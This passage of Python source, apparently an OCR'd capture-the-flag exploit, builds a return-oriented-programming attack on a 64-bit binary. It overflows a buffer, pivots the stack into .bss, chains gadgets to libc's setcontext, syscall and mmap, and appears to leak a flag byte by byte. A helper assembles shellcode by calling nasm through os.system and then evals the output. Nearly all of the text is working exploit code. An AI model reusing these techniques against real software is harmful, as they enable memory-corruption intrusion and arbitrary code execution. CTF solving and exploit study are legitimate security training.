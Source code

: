 ```python
    from __main__ import exe

    if arch == None:
        if exe.arch == "amd64":
            arch = "elf64"
        elif exe.arch == "i386":
            arch = "elf32"
    f = open("/tmp/shellcode.asm", "w").write(shellcode)
    os.system(f"nasm -f {arch} /tmp/shellcode.asm -o /tmp/shellcode")
    os.system(
        "objdump -d /tmp/shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/\"/'|sed 's/$/\"/g' > /tmp/ape"
    )
    a = eval("b" + open("/tmp/ape", "r").read())
    return a


padding = b"A" * 40
bss_start = 0x404000
add_gadget = 0x0000000040114C
pop_rdi = 0x0000000040116A
pop_rbp = 0x0000000040114D
leave_ret = 0x00000000401219
ret = 0x0000000040101A

pop_rax_rdx_rbx_delta = 0x3872
setcontext_delta = 0xFFFFFFFFFFE39FCD
syscall_delta = 0xFFFFFFFFFFE778F6
mov_r10_rcx_call_mmap = 0x91F0E
libc_ret_addr_bss = [bss_start + 0x68, bss_start + 0x80, bss_start + 0x98]
flag_addr = bss_start + 0x1D0
oracle_byte_addr = bss_start + 0xFC0
flag_idx_byte = bss_start + 0xFB0

syscall = bss_start + 0x058
pop_rax = bss_start + 0x068
setcontext = bss_start + 0x0C8
mmap64 = bss_start + 0x158

FLAG = ""


def exploit(cnt):

    global FLAG

    rop1 = padding + gets(bss_start + 0x100) + pivot(bss_start + 0x100)

    io.sendline(rop1)  # pivot stack to bss and call gets to push libc addresses in bss

    rop2 = b""
    rop2 += gets(bss_start + 0x10)
    rop2 += gets(bss_start + 0x100)
    rop2 += gets(bss_start + 0x100 - 0x50)
    rop2 += b"DUMMMMMY" * 20
    rop2 += p64(0xDEADBEEF)
    rop2 += (
        gets(bss_start + 0x70) + gets(bss_start + 0xC8 + 8) + pivot(bss_start + 0x68)
    ) * 8
    rop2 += gets(bss_start + 0x70)
    rop2 += pivot(pop_rax)
    rop2 += p64(0xDEADBEEF)
```